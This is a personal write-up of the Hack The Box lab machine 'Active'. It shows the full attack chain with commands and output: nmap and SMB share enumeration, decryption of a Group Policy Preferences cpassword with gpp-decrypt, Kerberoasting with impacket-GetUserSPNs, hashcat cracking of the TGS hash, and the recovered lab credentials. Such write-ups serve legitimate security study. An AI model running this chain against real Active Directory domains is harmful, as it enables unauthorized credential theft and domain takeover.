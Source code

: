 ### Host entries:
```bash
10.10.10.100  active.htb
```
If Active Directory => [[Synchronize NTP]] with the domain controller.

### Content

- SMB Enumeration
- SMB Full share replication to local machine [[SMB Download]] `smbclient mget*`
- GPP Decryption
- Kerberoasting
- Hashcat TGS crack

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.100 ()   Status: Up
Host: 10.10.10.100 ()   Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49152/open/tcp//unknown///, 49153/open/tcp//unknown///, 49154/open/tcp//unknown///, 49155/open/tcp//unknown///, 49157/open/tcp//unknown///, 49158/open/tcp//unknown///, 49165/open/tcp//unknown///, 49166/open/tcp//unknown///, 49168/open/tcp//unknown///
```
Services and Versions running:
```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 -sCV -Pn -n -vvv -oN targeted 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up, received user-set (0.089s latency).
Scanned at 2023-02-09 00:37:51 EST for 73s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-02-09 05:37:58Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49166/tcp open  msrpc         syn-ack Microsoft Windows RPC
49168/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time: 
|   date: 2023-02-09T05:38:55
|_  start_date: 2023-02-09T05:22:50
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38577/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51069/udp): CLEAN (Timeout)
|   Check 4 (port 38631/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```
Enumerating port 445 we identify that we have Read access to the Replication share:
```bash
crackmapexec smb 10.10.10.100 -u '' -p '' --shares
SMB 10.10.10.100 445 DC [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB 10.10.10.100 445 DC [+] active.htb\: 
SMB 10.10.10.100 445 DC [+] Enumerated shares
SMB 10.10.10.100 445 DC Share   Permissions  Remark
SMB 10.10.10.100 445 DC -----   -----------  ------
SMB 10.10.10.100 445 DC ADMIN$ Remote Admin
SMB 10.10.10.100 445 DC C$  Default share
SMB 10.10.10.100 445 DC IPC$Remote IPC
SMB 10.10.10.100 445 DC NETLOGON  Logon server share 
SMB 10.10.10.100 445 DC Replication  READ 
SMB 10.10.10.100 445 DC SYSVOL Logon server share
SMB 10.10.10.100 445 DC Users
```
We then enumerate the share, it has a lot of information within so we rather prefer to download the whole volume locally: ^72bf14
```bash
# First connect to the machine
smbclient //10.10.10.100/Replication -N
# Then turn off the Prompt and turn on the replicate function
smb: \> RECURSE ON
smb: \> PROMPT OFF
# Finally extract all the files
smb: \> mget *
```
We then check what info is within the share:
![[Pasted image 20230209005650.png]]
### Exploitation
This structure is very similar to the SYSVOL share so we know that there is a Groups.xml, this file can have a GPP hash that can be decrypted: ^959fa1
```bash
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
And we can decrypt the cpassword with gpp-decrypt utility:
```bash
# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

### Privilege Escalation
Now, since we know that there is no port tcp-5985 to login directly open we can keep the enumeration on port tcp-445, the next share interesting is not SYSVOL but Users and this is its structure:
![[Pasted image 20230209010606.png]]
After a deep enumeration, we couldn't identify any useful file that could provide a privesc or a lateral movement so we tried another approach which is a [[Kerberoasting (Service Account Attacks)]]. ^659f81
```bash
impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-09 00:24:03.458965             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
d03f8fe0c361c57c9c755c7d8a1024dd38c4beaf73a3688eb2c103450979c4e729c0b6d21a44160b71cc6             
```
This means that we can extract a TGS ticket directly from the DC, and we successfully get it, so next thing to do is to crack it with [[Hashcat]]:
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
hashcat (v6.2.5) starting


$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
f0cc1679087568696baa79fef670721b$0bd9f0addc75c15876fda2aae6fc4a9611250979c4e729c0b6d21a44160b71cc6:Ticketmaster1968
```
### Credentials
```bash
svc_tgs:GPPstillStandingStrong2k18
Administrator:Ticketmaster1968
```

### Notes

- We can extract a share with SMB directly by abusing of the [[SMB Download]] with SMBClient `mget *` functionality.

### References
* None


